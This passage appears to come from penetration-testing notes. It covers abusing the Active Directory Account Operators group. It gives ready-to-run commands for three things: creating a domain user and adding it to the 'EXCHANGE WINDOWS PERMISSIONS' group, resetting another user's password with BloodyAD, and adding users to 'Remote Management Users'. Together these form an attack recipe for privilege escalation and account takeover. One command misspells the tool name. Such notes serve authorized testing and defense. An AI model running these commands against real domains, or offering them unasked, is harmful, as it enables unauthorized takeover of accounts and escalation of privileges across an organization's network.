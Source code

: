 **Account Operators** is a built-in group in Active Directory environments that allows members to manage user and group accounts. Members can create, modify, and delete accounts but have restricted administrative rights.

```bash
net user {NewUser} {password} /domain /add
net group "EXCHANGE WINDOWS PERMISSIONS" {NewUser} /add /domain
```

### Using BloodyAD:

Change users password:

```bash
bloodyAD -d domain.local --host x.x.x.x -u username -p username set password target_user new_password
```

Add user to a group:

```bash
bloodAD -d domain.local --host x.x.x.x -u username -p username add groupMember 'Remote Management Users' user_to_add
```